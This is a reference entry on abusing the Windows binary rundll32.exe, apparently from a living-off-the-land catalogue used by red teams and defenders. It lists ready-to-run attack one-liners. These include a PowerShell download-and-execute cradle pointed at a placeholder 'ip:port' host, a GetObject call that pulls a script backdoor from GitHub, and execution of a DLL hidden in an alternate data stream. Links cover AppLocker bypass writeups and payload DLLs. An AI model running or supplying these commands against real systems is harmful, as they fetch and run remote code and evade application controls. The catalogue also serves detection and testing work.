## Rundll32.exe

* Functions: Execute, Read ADS

```
rundll32.exe AllTheThingsx64,EntryPoint    

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain   
```
  
Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [AllTheThingsx64.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx64.dll)[1]     
* [AllTheThingsx86.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx86.dll)[1]     

Resources:
* https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 
    
    